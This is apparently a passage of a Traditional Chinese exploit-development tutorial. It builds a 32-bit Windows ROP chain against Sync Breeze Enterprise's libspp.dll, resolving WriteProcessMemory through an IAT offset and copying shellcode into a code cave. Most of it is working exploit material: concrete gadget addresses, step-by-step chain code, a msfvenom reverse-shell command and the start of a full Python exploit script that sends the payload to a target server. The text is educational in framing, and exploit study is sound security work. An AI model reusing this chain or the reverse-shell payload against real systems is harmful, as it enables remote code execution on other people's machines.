我們可以在 windbg 上使用以下指令找到 IAT 的 offset。
```shell
!dh -f libspp
```



這時候你會發現神奇的事情發生了，這隻目標程式沒有使用到 WPM。所以 IAT 沒有記錄 WPM 的 address。難道就這樣結束了嗎 ? 當然不，我們剛才提到由於 ASLR 的關係導致 dll 的 base address 會隨機變動，但是 dll 中各個 function 的 offset 並不會被影響。簡單來說，如果 A function 所在的 address 是 `base address + 0x10`，B function 所在的 address 是 `base address + 0x20`。即使 ASLR 改變了 base address，B function 的 address 仍然在 A function 的 address 加上 `0x10` 的地方。
```shell
dds libspp+168000
```



WPM 是 kernel32 中的 function，我們只需要找到 IAT 中同樣是 kernel32 的 function，取得它在 kernel32 中的 address，並且算出該 function 在 kernel32 中的 address 與 WPM 在 kernel32 中的 address 的 offset，我們就能夠得到 WPM 的 address。要注意，因為 IAT 儲存的是 function 的 address，所以計算的時候不是計算 IAT address 的 offset，而是計算 IAT 儲存的 value 的 offset。

我們隨便找一個 GetLastErrorStub 當作目標，它在 IAT 中的 address 是 `0x10168040`，由於 IAT 被記錄在 `libspp` 當中，因此不受到 ASLR 影響，我們可以硬編碼這個 address。

使用以下的 windbg 指令算出 GetLastErrorStub 跟 WriteProcessMemoryStub 之間的 offset。計算的結果是 `-129696`，以十六進制表示是 `0xfffe0560`，這也就代表只要我們從 IAT 取得了 GetLastErrorStub 在 kernel32 中的 address 後，加上 129696 就能得到 WriteProcessMemoryStub 在 kernel32 中的 address。
```
? KERNEL32!GetLastErrorStub - KERNEL32!WriteProcessMemoryStub
```


我們可以透過以下 windbg 指令取得 GetLastErrorStub 在 kernel32 的 address。
```shell
u KERNEL32!GetLastErrorStub
```



接著我們可以使用以下的 windbg 指令驗證，確定我們的計算無誤。我們看到 GetLastErrorStub 的 address 是 `0x76ff4030`。注意，這裡是在 kernel32 的 address，跟 IAT 已經沒有關係了，怕有些人會混淆，所以提醒一下。接著我們計算 `GetLastErrorStub + offset`，理論上就能取得 WPM 的 address 了。
```shell
? 76ff4030 + 0n129696
u 77013ad0
```



也因此，現在我們的目標已經非常明確了，為了取得 WPM 的 address，我們需要利用 ROP 先放入 GetLastErrorStub 在 IAT 中的 address。由於 IAT 在我們選擇的 `libspp` 中，不會受到 ASLR 影響，因此我們可以硬編碼在 payload 中。接著我們要從 IAT 中取出 GetLastErrorStub 在 kernel32 中的 address，並且對這個 address 加上 `129696`，這樣我們就成功取得了 WriteProcessMemoryStub 的 address 了。

---
### 🐣0x440 開始 ROP

終於進入到重頭戲了，我們要開始 ROP 囉。話雖如此但 ROP 本身疊法就不只一種，幾乎是沒有標準答案的。這也是一開始學 ROP 會覺得很頭痛的地方，因為你無法判斷自己目前是否是往正確的方向前進。但幸運的是，在疊 ROP 的過程中有幾個 checkpoint 可以幫助你確認到目前為止的 ROP 是否朝著正確的方向前進。根據這些 checkpoint，可以構造出類似 SOP (Standard Operating Procedures) 的步驟。所以接下來，我會根據我認為的 SOP 來一步一步說明 ROP 是如何完成的。當然，你可以不用完全參照我的 gadgets，只要確保在 checkpoint 需要你完成的目標有確實完成即可。

要疊 ROP，我們首先要先取得 ROP gadgets，這裡我們需要用到神器 [rp++](https://github.com/0vercl0k/rp) ，這東西能夠幫你列出 gadgets。根據 rp++ 版本的不同，也許參數會有些微調整，但基本上不會差距太多。對了，儘管現在才提到，但我練習 ROP 的環境是 32 bits 的 Windows 10，所以我的 rp++ 使用的是 32bits 的版本。你可能會需要自己編譯，或者你有其他的管道能夠取得 rp++。

首先，我們需要先找到 `libspp` 的 base address，在先前我們已經取得過一次了，但我可以再示範一次，使用 windbg 的 narly 來取得 base address。
```shell
.load narly
!nmod
```



接著執行 rp++，這裡有一個很酷的雷，我不確定是不是 rp++ 版本的問題，但如果你把 `libspp.dll` 複製到其它路徑再使用 rp++ 取得 gadgets，得出的 gadgets 會是錯的。這真的很奇怪，但總之，我建議不要為自己添麻煩，在 narly 的輸出結果中會給你 dll 的絕對路徑，直接複製貼上就好了。而我的 rp++ 能夠指定 virtual address，因此我填入了 `libspp` 的 base address，這樣輸出的 gadgets 就不需要額外再加上 base address 就能直接使用。並且我指定了 ROP gadget 的長度限制在 `5`。這也代表每個 gadget 在 return 前只會有最多 `5` 個操作。你當然可以指定更高的數字，這麼一來你能夠取得更多的可用 gadget。但以我的經驗來說，超過 `5` 以上的 gadget 在進行處理時會變得很麻煩，除非我真的無法疊出 ROP，否則我不會考慮增加這個數字。
```powershell
C:\Users\tonya\Desktop\ROP\rp-win32.目標程式 -r 5 --va 0x10000000 --file "C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll" > rop5.txt
```

在執行完 rp++ 後，你應該會發現大量的 gadgets。通常來說這些 gadgets 在專業的 pwner 手中都是寶藏，他們總有辦法利用這些 gadgets。但很明顯地，我並不是，所以有一些相對起來非常難以使用的 gadgets 我會直接捨棄。 以下是我會捨棄的 gadget 的正規表達式，只要在任何一個支援正規表達式的 IDE 上將其取代為空白，你就能有效減少 gadget 的數量。至少對於初心者而言，這能幫助你減少大量篩選 gadget 的時間。
```shell
^.*call.*$
^.*jmp.*$
```

現在我們再來複習一次我們要完成的 ROP 目標，這也被稱作 Skeleton，但不管如何，ROP 的目標就是要完成以下參數，使得 WPM 能夠順利運作。
```python
wpm =pack("<L",0x69696969)  # (Todo) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0x70707070)  # (Todo) lpBuffer
wpm+=pack("<L",0x71717171)  # (Todo) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```

#### 🐸0x441 取得當前的 esp
ROP 的第一步是先將 `esp` 記錄下來，道理很簡單，因為我們的 payload 都儲存在 stack 上，不管是 WPM 的 Skeleton、ROP gadgets、shell code 等等。也因此我們需要一個在 stack 上的錨點來協助我們在 stack 上找到這些 payload。`esp` 就是一個非常好當錨點的目標，因為 `esp` (Extended Stack Pointer) 永遠都會指向 stack 頂部。

所以首先我們需要找到能夠取出 `esp` 的 gadget，能夠取出 `esp` 的 gadget 有非常多種，我簡單舉幾個例子，但你需要具有舉一反三的能力來尋找到你需要的 gadget。以下的 gadget 都能夠取出 `esp`。
```shell
push esp ; pop esi ; ret ;
xchg esp, eax ; ret ;
mov eax, esp ; ret ;
```

當然，有時候也能夠利用一些組合技取出 `esp`。
```shell
xor eax, eax ; ret ;
add eax, esp ; ret ;
```

或者在取出 `esp` 時會有一些副作用需要你去使用組合技抵銷。
```shell
xor eax, eax ; add eax, esp ; neg eax ; ret ;
neg eax ; ret ;
```

諸如此類， 有非常多種組合技能夠取出 `esp`。這就是為什麼舉一反三的能力很重要。每一個 dll 能找到的 gadget 都不一樣，如果只會一種方法很容易會撞牆。在這個 dll 中我找到的 gadget 是以下這個。我是覺得直接把 gadget 丟給 LLM 解釋會比較快啦，但說不定有些人不想，所以我還是解釋一下。這個 gadget 有價值的部分主要在於 `push esp` 與 `pop esi`，簡單來說就是將 `esp` 推入 stack 再從 stack 彈出到 `esi`。而 `inc ecx` 與 `adc eax, 0x08468B10` 則是副作用。分別是將 `ecx` 的 value 加 `1` 與進位版的將 `eax` 的 value 加上 `0x08468B10`。但這兩個副作用，一個影響 `eax`，另一個影響 `ecx`，我們目前都還沒有使用到，因此這兩個副作用可以不用理會。
```shell
0x10154112: push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (1 found)
```

在你找到 gadget 把 `esp` 取出來後，你的 payload 應該會類似下面這張圖，一樣我會稍微解釋一下。在我們最一開始控制 `eip` 的環節中，我們確認了 `780` 長度會導致 overflow，而接下來的 `4` 個 bytes 便會覆蓋到 `eip`。也因此，我們不可能將 WPM 的 Skeleton 放在 `eip` 之後，否則當 `eip` 執行到 WPM 後，由於 WPM 尚未填入應該有的 value ，就會造成 access violation。因此我們需要將 WPM 的 Skeleton 放在我們控制 `eip` 之前，因為這些空間原本就是用來填充會導致 crash 的字元，不管填入什麼，只要不是 badchar 都不會影響到我們的 ROP。

但當然，填入 WPM 的 Skeleton  後，我們仍然要確保總長度是 `780`。才能準確地讓 `eip` 落在我們要開始執行 ROP 的地方。因此原本要放入 `780` 個 `A` 作為 junk，在放入 WPM 的 Skeleton 後只需要放入 `780-len(wpm)` 個 `A` 就好。


現在 `esi` 便會作為我們的錨點。在以後的 ROP 過程中，幫助我們定位 stack 中我們 ROP 傳入的各種 gadget 的位置，恭喜你完成這個 checkpoint。

---
#### 🐸0x442 取得 WPM Skeleton 的 address

還記得我們為什麼要取得 `esp` 嗎? 是因為我們要作為錨點，現在我們要從這個錨點開始尋找 WPM Skeleton 的頂部，也就是以下這一行。
```python
wpm =pack("<L",0x69696969)  # (Todo) WriteProcessMemory Address
```

首先我們可以透過以下的 windbg 指令來取得 stack 的範圍。
```shell
r esp
!address esp
```



接著我們就能透過以下的 windbg 指令搜尋該範圍中 WPM Skeleton 的佔位字元。要注意，每次 stack 所分配的範圍都不一樣。唯一不變的是相對位置，所以我們才需要錨點。透過錨點來計算 WPM Skeleton 頂部距離錨點的距離，再對錨點去加減距離，如此一來就能不受到 stack 每次執行時 base address 不同的影響。根據輸出結果，WPM Skeleton 中用來放置 WriteProcessMemory address 的 address 距離我們的 `esi` 有 `0x24` 的距離，在搜尋時你可能會發現多個吻合的結果，我一律建議選擇距離最近的那一個，如果你選擇距離太遠的，又很不幸你的 gadget 只有 `inc` 或者 `dec` 之類的能用，那我只能祝你好運。
```shell
s -b 7f2000 800000 69 69 69 69
? esi - 7f7428
```


因此這個 checkpoint 的 ROP 目標就非常明確了，我們需要將 `esi` 減去 `0x24` 的結果儲存到某個暫存器備用。我找到了以下的 gadgets。首先，我將 `esi` 移動到 `eax` ，而 `pop esi` 是副作用，因此我需要放入佔位字元抵銷。這時候我的錨點從 `esi` 變成 `eax`。接著為了移動 `eax`，我往 `ebp` 放入 `-0x24` 表示要移動的距離。接著我將 `eax` 加上 `ebp`，簡單的數學，加上負數等於減去正數。現在的 `eax` 就會指向 WPM Skeleton 中用來放置 WriteProcessMemory address 的地方。而 `dec ecx` 是副作用，但我並沒有使用到 `ecx`，因此可以不用處理它。最後我將 `eax` 放到 `edx` 備用，原因是非常多的 gadget 會使用到 `eax`，我不希望 `eax` 一直被佔用，你當然可以放到任何你想放的地方。
```python
print("[+] Get skeleton of WPM Address & put into edx")
rop += pack("<L",0x100656f7) # mov eax, esi ; pop esi ; ret ;
rop += pack("<L",0x72727272) # GARBAGE for esi
rop += pack("<L",0x10128fde) # pop ebp ; ret ; (1 found)
rop += pack("<L",0xFFFFFFDC) # -36
rop += pack("<L",0x100fcd71) # add eax, ebp ; dec ecx ; ret ; (1 found)
rop += pack("<L",0x100cb4d4) # xchg eax, edx ; ret ; (1 found)
```

現在，你應該能從 `edx` 看到它指向的 address 是 `0x69696969`，表示你順利完成這個 checkpoint 了。接著我們就要準備往 `edx` 放入 WriteProcessMemoryStub 的 address 了。

---
#### 🐸0x443 取得到 WriteProcessMemoryStub 的 offset

這個 checkpoint 的 ROP 目標就是要取得從 GetLastErrorStub 到 WriteProcessMemoryStub 的 offset。再複習一次，`🐣0x430` 提到我們會透過 IAT 尋找 WPM，但不一定每次都能在 IAT 中找到 WPM，因此我們需要找到跟 WPM 在同一個 dll 的 function 並且透過 offset 來取得 WPM 的 address。在先前，我們已經計算過從 GetLastErrorStub 到 WriteProcessMemoryStub 的 offset 是 `-129696`，表示我們取得 GetLastErrorStub 後需要加上 `129696` 後才會是 WriteProcessMemoryStub。因此以下的 gadgets 我將 `-129696` 放入 `eax`，之所以不直接放入 `129696` 是因為它的十六進制表示是 `0x0001FAA0`，會撞到 badchar。之後我使用 `neg eax` 來將 `-129696` 轉換為 `129696`。接著我將 `eax` 放到 `ebp` 備用。
```python
print("[+] Put GetLastErrorStub-WriteProcessMemoryStub into ebp")
rop += pack("<L",0x1002f729) # pop eax ; ret ;
rop += pack("<L",0xfffe0560) # -129696
rop += pack("<L",0x100c1586) # neg eax ; ret ;
rop += pack("<L",0x100cdc7a) # xchg eax, ebp ; ret ;
```

如果你忘記了 `-129696` 怎麼來，這裡是 windbg 的指令。
```shell
? KERNEL32!GetLastErrorStub - KERNEL32!WriteProcessMemoryStub
Evaluate expression: -129696 = fffe0560
```

當你確認 `-129696` 出現在 `ebp` 後，你就完成這個 checkpoint 了。

---

#### 🐸0x444 將 WriteProcessMemoryStub 放入 WPM Skeleton

這個 checkpoint 的 ROP 目標就是要將 WriteProcessMemoryStub 的 address 放入 WPM Skeleton 中了。首先我們準備好 GetLastErrorStub 的 IAT address `0x10168040`，並將其放入 `eax`。如果你忘記了這個 IAT address 怎麼來的，請去 `🐣0x430` 翻。IAT 存放著外部 dll 中 function 的 address，也因此我們需要的是 IAT 中的 value，才會是 GetLastErrorStub 的 address。我們使用 `mov eax, [eax]` 來將 IAT 中的 value 取出來放到 `eax` 上。接著我們將 `eax` 加上 `ebp`，也就是 `-129696`，我們便能得到 WriteProcessMemoryStub 的 address。在這裡的副作用是 `dec ecx`，但很明顯我們沒有用到 `ecx`，因此可以不管。最後，我們將 WriteProcessMemoryStub 的 address 放入 `edx` 指向的 address，也就是 WPM Skeleton 中。要注意，我們要放進去的是 `edx` 指向的 address，不是 `edx`。所以我們使用 `mov [edx], eax` 而不是 `mov edx, eax`。

```python
print("[+] Put WPM Address into skeleton")
rop += pack("<L",0x1002f729) # pop eax ; ret ;
rop += pack("<L",0x10168040) # GetLastErrorStub
rop += pack("<L",0x1014dc4c) # mov eax,  [eax] ; ret ;
rop += pack("<L",0x100fcd71) # add eax, ebp ; dec ecx ; ret ;
rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
```

 此時的 ROP 應該已經完成這些部分，其中 WriteProcessMemory Address 就是我們剛剛在做的事情。
```python
wpm =pack("<L",0xXXXXXXXX)  # (Done) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0x70707070)  # (Todo) lpBuffer
wpm+=pack("<L",0x71717171)  # (Todo) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```

當你確認 `edx` 的 value 已經填入 WPM 的 address 後，恭喜你，完成這個 checkpoint 了。

---

#### 🐸0x445 移動錨點到 WPM Skeleton 的 lpBuffer

這個 checkpoint 的 ROP 目標非常單純，由於 Return Address after WPM、hProcess、lpBaseAddress 事實上都是硬編碼在我們的 payload 中的，我們不用填寫這些參數，因此我們需要將我們的錨點移動到 lpBuffer。我們直接用 `inc edx` 將 `edx` 增加 16 bytes 就好。
```python
print("[+] Move edx to skeleton of lpBuffer")
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
```

接著你可以確認 `edx` 也就是錨點已經定位到 WPM Skeleton 中放置 lpBuffer 的 address。恭喜你，完成這個 checkpoint 了。
```shell
dd edx L1
01aa7438  70707070
```


---
#### 🐸0x446 將 shell code address 放入 lpBuffer

這個 checkpoint 的 ROP 目標要來處理 lpBuffer。如`🐣0x430` 所言，lpBuffer 是指 shell code 在 stack 上的 address，WPM 會把 shell code 從 lpBuffer 的 address 複製到 Code Cave 中。如何撰寫 shell code 並不在這份 WriteUp 預計說明內事項內，畢竟這份是 ROP  WriteUp。但我想網路上有非常多資源能夠產生 shell code。最簡單的方式，你也可以使用 msfvenom 產生 shell code，不過通常這會遇到滿大的問題的，因此我更建議你去 github 上尋找一些其他人寫好的 shell code generator。
```shell
msfvenom -f python -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=443 EXITFUNC=thread -v shellcode
```

到目前為止如果一切進行順利，你的 payload 架構應該會是這樣的。而我們要做的就是取得 shell code 在 stack 上的 address。但你可能注意到了，`shellcode` 被我們放在 `rop` 之後。但問題是 gadgets 我們還沒有疊完，這也表示隨著我們繼續疊 ROP，shell code 在 stack 上的 address 會慢慢被 gadgets 往後推，離我們的錨點越來越遠。也因此，現在我們計算出來的 shell code address 只是暫時的，當我們完成了所有的 ROP payload，確認了不會再新增或刪減 gadget，我們需要回頭來修正 offset。
```python
shellcode= b"\x89\xe5\x81\xc4\xf0..."
payload = junk + wpm + eip + rop + shellcode
```

儘管如此，我們仍然要先學習怎麼計算 offset，還記得我們剛剛移動到 lpBuffer 的錨點嗎? 錨點目前應該指向 WPM Skeleton 的  lpBuffer。首先我們可以使用以下 windbg 指令來取得當前的 stack 範圍，並在 stack 中尋找我們的 shell code。
```shell
!address edx
s -b 01aa2000 01ab0000 89 e5 81 c4 f0
```



透過輸出結果，我們發現 shell code 被放在 `0x01aa74cc`，與目前放置在 `edx` 的 WPM Skeleton 的 lpBuffer 相差 `148`。當然，隨著 ROP gadgets 的數量增加，這個 value 也會改變，但目前我們先假設是 `148`。 
```shell
? 01aa74cc - edx
Evaluate expression: 148 = 00000094
```

我們透過 windbg 計算 `148` 的負數，同樣是為了避免放入正數會遇到 badchar。
```shell
? -0n148
Evaluate expression: -148 = ffffff6c
```

接著我們確認看看從 `edx + offset` 後是不是在正確的 address，也就是 shell code 所在的 address。
```
dd edx+0n148
```


當確認 address 是正確的後我們就能來準備 ROP 了。同樣我們將 lpBuffer 到 shell code 的 offset 放入 `eax`，這裡之所以是 `-188` 是因為我已經完成了所有 ROP，從未來回到過去來寫這篇文章，由於你還沒有完成，因此你應該是放入 `-148`。接著使用 `neg eax` 轉換為正數。接著我們將錨點加上 offset 後放到 `eax` 中，此時 `eax` 會指向 shell code 在 stack 上的 address。要注意 `0x1003f9f9` 這個 gadget 有個副作用是會 `retn 0x0004`。這表示在執行完下一個 gadget 後會跳過 `0x04` 個 stack 空間。我們需要在後面抵銷掉。接著我們就能將 shell code 在 stack 上的 address 放入 lpBuffer 中了。 
```shell
print("[+] Put shellcode address to skeleton of lpBuffer")
rop += pack("<L",0x1002f729) # pop eax ; ret ;
rop += pack("<L",0xffffff24) # -188
rop += pack("<L",0x100c1586) # neg eax ; ret ;
rop += pack("<L",0x1003f9f9) # add eax, edx ; retn 0x0004 ;
rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
rop += pack("<L",0x41414141) # retn 0x0004 要跳過的垃圾
```

當你確認 `edx` 的 value 已經填入 shell code 在 stack 上的 address 後，恭喜你，完成這個 checkpoint 了。此時的 ROP 應該已經完成這些部分，其中 lpBuffer 就是我們剛剛在做的事情。
```python
wpm =pack("<L",0xXXXXXXXX)  # (Done) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0xXXXXXXXX)  # (Need Fix) lpBuffer
wpm+=pack("<L",0x71717171)  # (Todo) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```

---

#### 🐸0x447 移動錨點到 WPM Skeleton 的 nSize

這個 checkpoint 的 ROP 目標是讓 `edx` 指向 nSize 。與 `🐸0x445` 差不多，差別只是在於移動的距離不是 `16` 而是 `4`。我想應該不需要太多說明，你能做出 `🐸0x445` 沒道理做不出 `🐸0x447`。
```shell
print("[+] Move edx to skeleton of nSize")
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
```
---

#### 🐸0x448 將 shell code size 放入 nSize

這個 checkpoint 的 ROP 目標要填入 nSize 的 value，還記得我們在 `🐣0x430` 說過，nSize 要填入的 value 必須要大於或等於 shell code 的長度。在這裡我只是為了測試，儘管我們前面找到的 Code Cave 的大小是 `0x600 - 0x4`，但我的 shell code 其實並沒有這麼大，因此我在這裡填入了 `-700` 的大小，並透過 `neg eax` 轉換為正數，接著放入 nSize 的 address 中。

```python
print("[+] Put shell code size to skeleton of nSize")
rop += pack("<L",0x1002f729) # pop eax ; ret ;
rop += pack("<L",0xfffffd44) # 700
rop += pack("<L",0x100c1586) # neg eax ; ret ;
rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
```

```shell
0:011> ? -0n700
Evaluate expression: -700 = fffffd44
```

當你確認 `edx` 指向的 address 已經填入 `0x000002BC`  後，恭喜你，完成這個 checkpoint 了。此時的 ROP 應該已經完成這些部分，其中 nSize 就是我們剛剛在做的事情。如此一來，我們需要在 ROP 階段填入的參數已經全部完成。只剩下最後一步了。
```python
wpm =pack("<L",0xXXXXXXXX)  # (Done) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0xXXXXXXXX)  # (Need Fix) lpBuffer
wpm+=pack("<L",0x000002BC)  # (Done) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```

---
#### 🐸0x449 移動 esp 到 WPM Skeleton

這個 checkpoint 的 ROP 目標，我們要將 WPM Skeleton 的 address 放入 `esp` 中。這是因為在 return 後，`esp` 當中的 value 會被放入 `eip` 中。因此當 gadgets 結束後，`eip` 便會回到  WPM Skeleton 中 WriteProcessMemory address 的位置執行 WPM。WPM Skeleton 的位置可以用錨點去計算，還記得我們在 ROP 的過程中移動了錨點幾次嗎 ? 在 `🐸0x445` 中我們移動了 16 bytes。在 `🐸0x447` 中我們移動了 4 bytes。總共對 `edx` 移動了 20 bytes，所以就減去 `0x14`。下面的圖中 nSize 我設定為 `0x00000190` 但不用在意，只要這個數字大於或等於你的 shell code 就好，我只是懶得重新截圖。
```shell
dd edx-14
```



同樣，我將 `-0x14` 的 offset 放入 `eax` 中，並且加上了錨點的 `edx`。此時 `eax` 就會指向 Skeleton 中 WriteProcessMemory address 的地方，接著我將 `eax` 放到了 `esp`。這麼一來，當 return 後，`eip` 就會被設定為 Skeleton 中的 WriteProcessMemory address，並帶上我們精心構造的參數去呼叫 WPM。我們的 ROP 也宣告完成。
```shell
print("[+] Set esp to WPM")
rop += pack("<L",0x1002f729) # pop eax ; ret ;
rop += pack("<L",0xffffffec) # -0x14
rop += pack("<L",0x1003f9f9) # add eax, edx ; retn 0x0004 ;
rop += pack("<L",0x101394a9) # xchg eax, esp ; ret ;
rop += pack("<L",0x41414141) # retn 0x0004 要跳過的垃圾
```

最後的最後，在 ROP 的 gadgets 已經全部確定完成後，要記得回去修 lpBuffer 的 value ，確保 lpBuffer 正確指向 shell code 在 stack 上的 address。
```python
wpm =pack("<L",0xXXXXXXXX)  # (Done) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0xXXXXXXXX)  # (Need Fix) lpBuffer
wpm+=pack("<L",0x000002BC)  # (Done) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```
---
## 🦉0x500 範例 payload 

如果你跟著這篇文章從頭做到尾，你應該能夠構建出非常接近以下 payload 的 ROP。為了減少你遇到的問題，這份 payload 提供給你做為對照或參考。希望能減少你在學習 ROP 的過程中的疑惑。
```python
#!/usr/bin/env python3
import socket, sys
from struct import pack

def exploit():
    #i = 780

    try:
        server = sys.argv[1]
        port = 80
        crash_offset = 780
        shellcode= b"\x89\xe5\x81\xc4\xf0..."
        print(len(shellcode))
        
        wpm=pack("<L",0x69696969)   # WriteProcessMemory Address
        wpm+=pack("<L",0x10167a04)  # Return Address after WPM
        wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
        wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
        wpm+=pack("<L",0x70707070)  # lpBuffer
        wpm+=pack("<L",0x71717171)  # nSize
        wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
        
        
